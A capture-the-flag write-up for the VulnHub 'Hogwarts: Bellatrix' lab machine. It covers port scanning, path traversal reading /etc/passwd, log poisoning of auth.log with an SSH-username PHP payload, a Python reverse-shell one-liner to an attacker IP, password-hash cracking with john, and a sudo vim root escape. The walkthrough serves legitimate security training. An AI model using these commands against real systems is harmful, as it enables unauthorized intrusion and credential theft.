```yaml
---
title: Hogwarts-Bellatrix - Writeup
author: Elman Alizadeh
date: 2022-05-22 21:28:00 +0800
categories: [ctf, VulnHub]
tags: [vulnhub, hogwarts, bellatrix]
---
```


Today we will take a look at Vulnhub: Bellatrix. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/vuln-hogwarts-bellatrix/1.jpeg" | relative_url }})

## Network scan

Command: sudo nmap -p- -sV -sC -oN nmap/open — open 192.168.0.105

```console
Nmap scan report for 192.168.0.113
Host is up (0.032s latency).
Not shown: 61087 closed tcp ports (reset), 4446 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3p1 Ubuntu 1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4b:ce:c7:5a:9c:1f:8b:cd:47:03:08:69:85:c2:91:49 (RSA)
|   256 a1:2a:a8:15:99:04:cc:2a:1e:e3:50:00:f3:55:c2:cc (ECDSA)
|_  256 2c:d3:ec:6f:4f:5b:4a:e0:ea:0a:c3:0d:2f:cb:78:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
|_http-title: AvadaKedavra
|_http-server-header: Apache/2.4.46 (Ubuntu)
MAC Address: 3C:A0:67:C5:35:33 (Liteon Technology)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web

![Desktop View]({{ "/assets/img/vuln-hogwarts-bellatrix/2.png" | relative_url }})

After seeing the .php extension, we go there.

http://192.168.0.113/ikilledsiriusblack.php


![Desktop View]({{ "/assets/img/vuln-hogwarts-bellatrix/3.png" | relative_url }})

There is such a thing in the source code below.

Yes, that’s what you think. Let’s check. ;)

http://192.168.0.113/ikilledsiriusblack.php?file=../../../../../../etc/passwd

![Desktop View]({{ "/assets/img/vuln-hogwarts-bellatrix/4.png" | relative_url }})

## Reverse

We need to get the reverse shell from here. If we investigate, we find.

[LFI_reverse](https://a3h1nt.medium.com/from-local-file-inclusion-to-reverse-shell-774fe61b7e1e)

Let’s check

http://192.168.0.113/ikilledsiriusblack.php?file=../../../../../../var/log/auth.log

Command: ssh ‘<?php system($_GET[“cmd”]); ?>’@192.168.0.113


![Desktop View]({{ "/assets/img/vuln-hogwarts-bellatrix/5.png" | relative_url }})

http://192.168.0.113/ikilledsiriusblack.php?file=../../../../../..//var/log/auth.log&cmd=ls%20-la

![Desktop View]({{ "/assets/img/vuln-hogwarts-bellatrix/6.png" | relative_url }})

Yes it works.

```console
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.107",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

After logging in

Command: script /dev/null -c bash

Command: export TERM=xterm

ctrl+z

Command: stty raw -echo ; fg

Command: reset

## Lestrange

As we look inside, we see a folder whose name is encrypted with base64. There are two files in it. One is the password list and the other is the hash form of the name and password.

![Desktop View]({{ "/assets/img/vuln-hogwarts-bellatrix/7.png" | relative_url }})

```console
Command: john hash --wordlist=pass.txt

Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ihateharrypotter (lestrange)     
1g 0:00:00:00 DONE (2022-05-22 20:52) 2.380g/s 273.8p/s 273.8c/s 273.8C/s gryffondor
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Command: su lestrange

## Root

Command: sudo -l

```console
(ALL : ALL) NOPASSWD: /usr/bin/vim
```

[GTFO_vim](https://gtfobins.github.io/gtfobins/vim/#sudo)

Command: sudo /usr/bin/vim -c ‘:!/bin/sh’

![Desktop View]({{ "/assets/img/vuln-hogwarts-bellatrix/8.png" | relative_url }})

### And now we are the root

![Desktop View]({{ "/assets/img/vuln-hogwarts-bellatrix/9.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”
